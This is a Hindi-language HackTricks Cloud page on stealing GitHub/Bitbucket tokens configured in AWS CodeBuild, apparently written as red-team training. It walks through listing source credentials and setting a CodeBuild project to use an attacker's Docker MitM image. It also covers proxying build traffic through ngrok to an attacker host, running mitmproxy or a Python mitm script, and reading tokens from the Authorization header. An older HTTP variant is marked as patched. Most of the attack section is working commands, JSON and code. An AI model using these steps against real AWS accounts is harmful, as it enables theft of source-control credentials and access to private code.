 # AWS Codebuild - Token Leakage

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके.

</details>
{% endhint %}

## Github/Bitbucket कॉन्फ़िगर किए गए Tokens पुनः प्राप्त करें

सबसे पहले, जांचें कि क्या कोई स्रोत क्रेडेंशियल्स कॉन्फ़िगर किए गए हैं जिन्हें आप leak कर सकते हैं:
```bash
aws codebuild list-source-credentials
```
### Docker Image के माध्यम से

यदि आपको पता चलता है कि उदाहरण के लिए Github के लिए प्रमाणीकरण खाते में सेट है, तो आप **Codebuild** को **विशिष्ट docker image** का उपयोग करके प्रोजेक्ट का निर्माण करने के लिए **बनाकर** उस **पहुंच** (**GH token या OAuth token**) को **निकाल** सकते हैं।

इस उद्देश्य के लिए आप **नया Codebuild प्रोजेक्ट बना सकते हैं** या किसी मौजूदा प्रोजेक्ट के **पर्यावरण** को बदल सकते हैं ताकि **Docker image** सेट कर सकें।

आप जो Docker image उपयोग कर सकते हैं वह है [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)। यह एक बहुत ही बुनियादी Docker image है जो **env variables `https_proxy`**, **`http_proxy`** और **`SSL_CERT_FILE`** सेट करेगा। यह आपको **`https_proxy`** और **`http_proxy`** में निर्दिष्ट होस्ट के अधिकांश ट्रैफ़िक को इंटरसेप्ट करने और **`SSL_CERT_FILE`** में निर्दिष्ट SSL CERT पर भरोसा करने की अनुमति देगा।

1. **अपनी खुद की Docker MitM image बनाएं और अपलोड करें**
* अपने प्रॉक्सी IP पते को सेट करने और अपने SSL cert को सेट करने के लिए repo के निर्देशों का पालन करें और **docker image बनाएं**।
* **`http_proxy` सेट न करें** ताकि मेटाडेटा एंडपॉइंट के अनुरोधों को इंटरसेप्ट न किया जा सके।
* आप **`ngrok`** का उपयोग कर सकते हैं जैसे `ngrok tcp 4444` अपने होस्ट पर प्रॉक्सी सेट करने के लिए
* एक बार जब आप Docker image बना लेते हैं, तो **इसे एक सार्वजनिक repo (Dockerhub, ECR...) पर अपलोड करें**
2. **पर्यावरण सेट करें**
* एक **नया Codebuild प्रोजेक्ट बनाएं** या किसी मौजूदा प्रोजेक्ट के पर्यावरण को **संशोधित करें**।
* प्रोजेक्ट को **पहले से जनरेट किए गए Docker image** का उपयोग करने के लिए सेट करें

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **अपने होस्ट में MitM प्रॉक्सी सेट करें**

* जैसा कि **Github repo** में संकेत दिया गया है, आप कुछ इस तरह का उपयोग कर सकते हैं:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxy संस्करण 9.0.1 का उपयोग किया गया था**, यह बताया गया कि संस्करण 10 के साथ यह काम नहीं कर सकता है।
{% endhint %}

4. **बिल्ड चलाएं और क्रेडेंशियल्स को कैप्चर करें**

*   आप **Authorization** हेडर में टोकन देख सकते हैं:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

यह aws cli से भी कुछ इस तरह किया जा सकता है

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP प्रोटोकॉल के माध्यम से~~

{% hint style="success" %}
**इस भेद्यता को AWS ने 20 फरवरी 2023 के सप्ताह में किसी समय ठीक कर दिया था (मुझे लगता है शुक्रवार को)। इसलिए अब एक हमलावर इसका दुरुपयोग नहीं कर सकता :)**
{% endhint %}

एक हमलावर जिसके पास **CodeBuild में उन्नत अनुमतियाँ हैं, वह Github/Bitbucket token को लीक कर सकता है** जो कॉन्फ़िगर किया गया है या यदि अनुमतियाँ OAuth के माध्यम से कॉन्फ़िगर की गई थीं, तो **कोड तक पहुँचने के लिए उपयोग किए गए अस्थायी OAuth token** को लीक कर सकता है।

* एक हमलावर CodeBuild प्रोजेक्ट में environment variables **http\_proxy** और **https\_proxy** को अपनी मशीन की ओर इंगित कर सकता है (उदाहरण के लिए `http://5.tcp.eu.ngrok.io:14972`)।

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* फिर, github repo के URL को HTTP का उपयोग करने के लिए बदलें, उदाहरण के लिए: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* फिर, [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) से बेसिक उदाहरण को उस पोर्ट पर चलाएं जो proxy variables (http\_proxy और https\_proxy) द्वारा इंगित किया गया है।
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* अंत में, **प्रोजेक्ट को बिल्ड करें** पर क्लिक करें, **क्रेडेंशियल्स** को **स्पष्ट टेक्स्ट** (base64) में mitm पोर्ट पर **भेजा जाएगा**:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
अब एक हमलावर अपने मशीन से टोकन का उपयोग कर सकेगा, इसके सभी विशेषाधिकारों को सूचीबद्ध कर सकेगा और सीधे CodeBuild सेवा का उपयोग करने की तुलना में इसे (दुरुपयोग) करना आसान होगा।
{% endhint %}

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**डिस्कॉर्ड ग्रुप**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम ग्रुप**](https://t.me/peass) में शामिल हों या हमें **ट्विटर** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोज़िटरी में PRs सबमिट करके।

</details>
{% endhint %}
